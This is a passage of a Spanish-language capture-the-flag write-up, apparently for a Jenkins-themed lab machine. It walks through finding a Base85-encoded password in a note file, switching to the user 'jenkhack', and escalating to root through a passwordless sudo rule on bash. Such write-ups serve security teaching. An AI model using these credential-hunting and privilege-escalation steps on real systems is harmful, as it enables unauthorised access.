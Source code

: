 Info:
```
╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/root/
/var/www
/var/www/jenkhack
/var/www/jenkhack/note.txt
/var/www/jenkins_2.401.2_all.deb
/var/www/html
/var/www/html/index.html
/var/www/html/scripts.js
/var/www/html/styles.css
```

Encontramos un archivo `note.txt` dentro del directorio `/var/www/jenkhack/` que parece interesante. Leemos su contenido.

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Estas probablemente sean las credenciales que necesitamos para pivotar al usuario `jenkhack`, pero la contraseña parece cifrada.

Descubrimos que está cifrada en `Base85`, así que la decodificamos.

```
C1V9uBl8!'Ci*`uDfP : jenkinselmejor
```

Ya tenemos las credenciales del usuario `jenkhack` : `jenkinselmejor`. Nos autenticamos con éxito.

```bash
su jenkhack
```

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for jenkhack on a6526368dbcf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jenkhack may run the following commands on a6526368dbcf:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Vamos a ejecutar el comando que el usuario `jenkhack` puede ejecutar con privilegios de `root`.

```bash
sudo /usr/local/bin/bash
```
